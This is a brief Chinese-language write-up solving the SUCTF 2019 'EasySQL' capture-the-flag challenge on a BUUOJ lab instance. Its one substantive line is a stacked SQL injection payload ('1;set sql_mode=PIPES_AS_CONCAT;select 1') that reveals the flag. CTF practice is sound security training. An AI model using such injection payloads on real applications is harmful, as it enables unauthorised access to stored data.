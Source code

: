# [SUCTF 2019]EasySQL
点击题目链接 http://b69441b9-652c-4a85-add3-6f74e25c8201.node5.buuoj.cn:81/

![](./205bda084183ecc941aae456f9ec953.png)

输入1;set sql_mode=PIPES_AS_CONCAT;select 1语句

获得flag

![](./b87922122626aeee58d795ece1681b2.png)
